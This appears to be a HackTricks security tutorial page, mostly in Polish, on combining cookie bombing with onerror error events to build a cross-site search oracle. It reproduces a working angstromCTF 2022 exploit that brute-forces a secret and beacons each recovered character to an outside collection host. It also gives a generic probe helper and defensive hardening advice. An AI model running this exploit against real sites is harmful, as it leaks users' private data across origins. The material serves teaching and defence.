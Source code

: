 # Cookie Bomb + Onerror XS Leak

{{#include ../../banners/hacktricks-training.md}}

Ta technika łączy:
- Cookie bombing: zapełnienie przeglądarki ofiary wieloma/dużymi cookies dla docelowego origin, tak aby kolejne żądania osiągały limity serwera/żądania (request header size, URL size in redirects, etc.).
- Error-event oracle: sondowanie cross-origin endpointu przy użyciu <script> (lub innego subresource) i rozróżnianie stanów przez onload vs onerror.

High level idea
- Znajdź docelowy endpoint, którego zachowanie różni się dla dwóch stanów, które chcesz przetestować (np. wyszukiwanie “hit” vs “miss”).
- Upewnij się, że ścieżka “hit” spowoduje długi łańcuch przekierowań lub długi URL, podczas gdy ścieżka “miss” pozostanie krótka. Napompuj nagłówki żądania za pomocą wielu cookies tak, aby tylko ścieżka “hit” spowodowała awarię serwera ze statusem HTTP (np. 431/414/400). Ten błąd powoduje wywołanie onerror i staje się oraklem dla XS-Search.

When does this work
- Możesz spowodować, że przeglądarka ofiary wyśle cookies do celu (np. cookies są SameSite=None lub możesz ustawić je w kontekście first-party przez popup window.open).
- Aplikacja ma funkcję, którą można wykorzystać do ustawiania dowolnych cookies (np. endpointy “save preference”, które zamieniają kontrolowane nazwy/wartości pól wejściowych na Set-Cookie) lub do wykonania post-auth redirectów, które wstawiają dane kontrolowane przez atakującego do URL.
- Serwer reaguje inaczej w tych dwóch stanach i przy napompowanych nagłówkach/URL jedna ścieżka przekracza limit i zwraca odpowiedź błędu, która uruchamia onerror.

Note on server errors used as the oracle
- 431 Request Header Fields Too Large is commonly returned when cookies inflate request headers; 414 URI Too Long or a server-specific 400 may be returned for long request targets. Any of these result in a failed subresource load and fire onerror. [MDN documents 431 and typical causes like excessive cookies.]()

Practical example (angstromCTF 2022)
Poniższy skrypt (z publicznego writeupu) wykorzystuje funkcję, która pozwala atakującemu wstawić dowolne cookies, a następnie ładuje cross-origin search endpoint jako skrypt. Gdy zapytanie jest poprawne, serwer wykonuje redirect, który wraz z rozmiarem cookies przekracza limity serwera i zwraca status błędu, więc script.onerror się uruchamia; w przeciwnym razie nic się nie dzieje.
```html
<>'";
<form action="https://sustenance.web.actf.co/s" method="POST">
<input id="f" /><input name="search" value="a" />
</form>
<script>
const $ = document.querySelector.bind(document)
const sleep = (ms) => new Promise((r) => setTimeout(r, ms))
let i = 0
const stuff = async (len = 3500) => {
let name = Math.random()
$("form").target = name
let w = window.open("", name)
$("#f").value = "_".repeat(len)
$("#f").name = i++
$("form").submit()
await sleep(100)
}
const isError = async (url) => {
return new Promise((r) => {
let script = document.createElement("script")
script.src = url
script.onload = () => r(false)
script.onerror = () => r(true)
document.head.appendChild(script)
})
}
const search = (query) => {
return isError(
"https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query)
)
}
const alphabet =
"etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ"
const url = "//en4u1nbmyeahu.x.pipedream.net/"
let known = "actf{"
window.onload = async () => {
navigator.sendBeacon(url + "?load")
await Promise.all([stuff(), stuff(), stuff(), stuff()])
await stuff(1600)
navigator.sendBeacon(url + "?go")
while (true) {
for (let c of alphabet) {
let query = known + c
if (await search(query)) {
navigator.sendBeacon(url, query)
known += c
break
}
}
}
}
</script>
```
Dlaczego popup (window.open)?
- Nowoczesne przeglądarki coraz częściej blokują third-party cookies. Otwarcie top-level window do target powoduje, że cookies są first-party, więc odpowiedzi Set-Cookie od target zostaną zachowane, co umożliwia krok cookie-bomb nawet przy ograniczeniach third-party cookies.

Ogólny pomocnik sondowania
Jeśli masz już sposób na ustawienie wielu cookies na target origin (first-party), możesz ponownie użyć tego minimalnego oracle wobec dowolnego endpointu, którego powodzenie/niepowodzenie prowadzi do różnych rezultatów sieciowych (status/MIME/redirect):
```js
function probeError(url) {
return new Promise((resolve) => {
const s = document.createElement('script');
s.src = url;
s.onload = () => resolve(false);  // loaded successfully
s.onerror = () => resolve(true);  // failed (e.g., 4xx/5xx, wrong MIME, blocked)
document.head.appendChild(s);
});
}
```
Wskazówki jak zbudować oracle
- Wymuś, aby stan „pozytywny” był cięższy: dołącz dodatkowe przekierowanie tylko wtedy, gdy warunek jest prawdziwy, lub spraw, by URL przekierowania odzwierciedlał nieograniczone dane wprowadzone przez użytkownika, tak aby rósł wraz ze zgadywanym prefiksem.
- Zwiększ rozmiar nagłówków: powtarzaj cookie bombing, aż na „ciężkiej” ścieżce zaobserwujesz spójny błąd. Serwery często ograniczają rozmiar nagłówków i zawiodą wcześniej, gdy obecnych jest wiele cookies.
- Stabilizuj: uruchom wiele równoległych operacji ustawiania cookies i sonduj wielokrotnie, aby uśrednić szumy związane z opóźnieniami i pamięcią podręczną.

Powiązane XS-Search tricks
- URL length based oracles (no cookies needed) można łączyć lub stosować zamiast nich, gdy możesz wymusić bardzo długi cel żądania:

{{#ref}}
url-max-length-client-side.md
{{#endref}}

Obrona i utwardzanie
- Spraw, aby odpowiedzi w przypadku sukcesu i porażki były nierozróżnialne:
- Unikaj warunkowych przekierowań lub dużych różnic w rozmiarze odpowiedzi między stanami. Zwracaj ten sam status, ten sam Content-Type i podobną długość treści niezależnie od stanu.
- Zablokuj sondowanie subresource cross-site:
- SameSite cookies: ustaw wrażliwe cookies na SameSite=Lax lub Strict, tak aby żądania subresource takie jak <script src> ich nie niosły; preferuj Strict dla auth tokens, gdy to możliwe.
- Fetch Metadata: egzekwuj Resource Isolation Policy, aby odrzucać ładowanie cross-site subresources (np. jeśli Sec-Fetch-Site != same-origin/same-site).
- Cross-Origin-Resource-Policy (CORP): ustaw CORP: same-origin (lub przynajmniej same-site) dla endpointów, które nie mają być osadzane jako cross-origin subresources.
- X-Content-Type-Options: nosniff oraz poprawny Content-Type na endpointach JSON/HTML, aby uniknąć ładowania jako skrypt i związanych z tym niespójności.
- Ogranicz amplifikację nagłówków/URL:
- Ogranicz liczbę/rozmiar ustawianych cookies; sanityzuj funkcje, które zamieniają dowolne pola formularzy na Set-Cookie.
- Normalizuj lub obcinaj reflektowane dane w przekierowaniach; unikaj osadzania długich łańcuchów kontrolowanych przez atakującego w URL-ach Location.
- Utrzymuj limity serwera spójne i zwracaj błędy jednakowo (unikaj specjalnych stron błędów tylko dla jednej gałęzi).

Uwagi
- Ta klasa ataków jest szeroko omawiana jako „Error Events” XS-Leaks. Krok cookie-bomb jest po prostu wygodnym sposobem, by przepchnąć tylko jedną gałąź poza limity serwera, tworząc wiarygodny boolean oracle.



## References
- XS-Leaks: Error Events (onerror/onload as an oracle): https://xsleaks.dev/docs/attacks/error-events/
- MDN: 431 Request Header Fields Too Large (common with many cookies): https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/431
{{#include ../../banners/hacktricks-training.md}}
